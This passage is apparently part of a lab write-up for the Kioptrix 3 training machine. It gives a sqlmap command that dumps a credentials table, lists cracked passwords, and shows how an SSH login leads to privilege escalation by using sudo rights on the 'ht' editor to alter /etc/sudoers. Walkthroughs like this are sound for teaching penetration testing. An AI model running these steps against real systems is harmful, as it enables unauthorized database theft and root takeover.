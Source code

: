 ![image](https://user-images.githubusercontent.com/85706972/200410910-5ce21a11-081e-49b0-b2d2-5b7acfa01647.png)

The one we are interested in is <em>dev_accounts</em>, so next scan we are going to dump all and if find any creds, crack them using the same tool

```js
sqlmap "http://kioptrix3.com/gallery/gallery.php?id=1" -p id --cookie="provide cookie here" --risk=3 --level=3 --random-agent --dbms MySQL -D gallery -T dev_accounts --dump-all
```

After some time, we do find credentials which were crack by sqlmap 

![image](https://user-images.githubusercontent.com/85706972/200411289-9dd75a93-fa9c-4ce4-92b0-dffdcc1a5808.png)

```js
dreg : Mast3r
loneferret : starwars
```

Using found credentials we can try to login with ssh as the port was open, and as you can see the loneferret user login was successfull

![image](https://user-images.githubusercontent.com/85706972/200411448-93293cee-7169-479e-aec7-aefe54b0dcc2.png)


## Privilege Escalation

Checking sudo privileges on current user we see that we have sudo permission over <srong>/usr/local/bin/ht</string>

![image](https://user-images.githubusercontent.com/85706972/200413993-dc2f7138-054b-4606-aebd-6b4881be4b3e.png)

Following permissions means that this user have sudo permission to the xterm-256color text editor, abusing this we can attempt to edit <strong>/etc/sudoers</strong> file so we can elevate our privileges.
  
```js
sudo ht /etc/sudoers 
#You will get this error 
Error opening terminal: xterm-256color.

#Fix error
export TERM=xterm-color
sudo ht /etc/sudoers 
```

Those commands should open us the following text editor

![image](https://user-images.githubusercontent.com/85706972/200416517-135c86c4-33f5-4c22-bba9-afbf4c30f069.png)


From here press ALT+ and with arrows keys navigate to Open, and then press Enter, this will give us option to enter file name and we want to open following file <strong>/etc/sudoers</strong> 

![image](https://user-images.githubusercontent.com/85706972/200415553-af31881c-e733-40ac-847a-192eafa895ef.png)
